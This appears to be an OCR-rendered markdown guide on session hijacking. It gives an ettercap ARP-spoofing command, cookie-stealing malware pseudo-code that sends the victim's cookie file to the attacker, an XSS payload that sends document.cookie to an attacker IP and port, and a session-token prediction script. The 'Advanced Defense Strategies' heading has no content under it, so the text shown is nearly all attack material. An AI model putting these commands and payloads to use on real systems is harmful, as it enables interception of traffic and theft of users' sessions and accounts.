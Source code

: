 # Advanced Techniques in Session Hijacking

Session hijacking is an attack where an adversary takes over a user's session by stealing or manipulating their session token. This guide explores advanced techniques that attackers use for hijacking sessions and provides methods to defend against such threats.

## Techniques for Session Hijacking

### 1. **Man-in-the-Middle (MitM) Attack**:
MitM attacks are critical for session hijacking, allowing an attacker to intercept and manipulate traffic between a client and server.

**Command Example with `ettercap`:**
```bash
sudo ettercap -T -M arp:remote /192.168.15.11// /192.168.15.1//
```

### 2. **Using Malware to Steal Cookies**:
Attackers can use malware to extract session cookies from a victim's computer.

**Malware Snippet (Pseudo-code):**
```python
import os
cookies = os.popen('find / -name "cookies.sqlite"').read()
send_to_attacker(cookies)
```

### 3. **Cross-Site Scripting (XSS)**:
XSS can be used to steal session tokens by injecting malicious scripts into web pages viewed by other users.

**XSS Payload Example:**
```javascript
<script>fetch('http://192.168.15.11:5555/steal?cookie=${document.cookie}');</script>
```

### 4. **Predicting Session Token Patterns**:
If session tokens are predictable, attackers can generate potential valid session tokens and gain unauthorized access.

**Session Prediction Script:**
```python
import hashlib
import time

def predict_session_token(username):
    today = str(time.strftime('%Y%m%d'))
    token = hashlib.md5((username + today).encode()).hexdigest()
    return token
```

## Advanced Defense Strategies
